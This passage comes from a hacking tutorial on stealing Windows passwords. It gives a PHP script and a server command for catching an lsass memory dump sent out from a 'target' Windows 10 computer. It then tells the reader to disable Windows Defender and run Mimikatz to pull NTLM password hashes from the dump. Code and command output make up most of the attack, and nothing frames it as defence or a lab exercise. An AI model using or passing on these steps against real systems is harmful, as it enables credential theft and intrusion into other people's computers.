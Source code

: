 Before performing any keystroke injections, a PHP server is needed to intercept the exfiltrated dump. The keystroke injection payload is expecting a server on port 80. 

Create a directory called `phpServer/` and change into it. Create a file called `i.php`.

```bash
$ mkdir phpServer/; cd phpServer/; nano i.php
```

Paste the below PHP script into the terminal, save and exit. 

```php
<?php
  $file = date("Hism") . ".zip";
  file_put_contents($file, file_get_contents("php://input"));
?>
```

This simple PHP script is capable of intercepting ZIP files and doesn't need to be modified in any way to function. When the target Windows 10 computer sends a zip, the server will save the data with the time as the filename.

Start the PHP server with the `php -S 0.0.0.0:80` command.

```bash
$ php -S 0.0.0.0:80

PHP 7.3.0-2 Development Server started
Listening on http://0.0.0.0:80
Document root is /root/phpServer
Press Ctrl-C to quit.
```

### Extract the Hashes with Mimikatz

Move the intercepted ZIP file to a Windows 10 computer. Unzip it to find the" lsass.DMP" file. Make sure to [disable Windows Defender](img/Dump-NTLM-Hashes-Crack-Windows-Passwords03.jpg) and other security features before downloading Mimikatz. Alternatively, a [VM that doesn't have Windows Defender installed](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-break-into-somebodys-computer-without-password-exploiting-system-0183743/#jump-step4) can be configured for Mimikatz antics.

After unzipping the [Mimikatz ZIP](https://github.com/gentilkiwi/mimikatz/releases), open a PowerShell terminal. Use the following command to execute the `mimikatz.exe`.

```cmd
C:\> PS & "C:\Users\$env:username\PATH\TO\MIMIKATZ\x64\mimikatz.exe"

  .#####.   mimikatz 2.2.0 (x64) #18362 Aug 13 2019 01:35:04
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz #
```
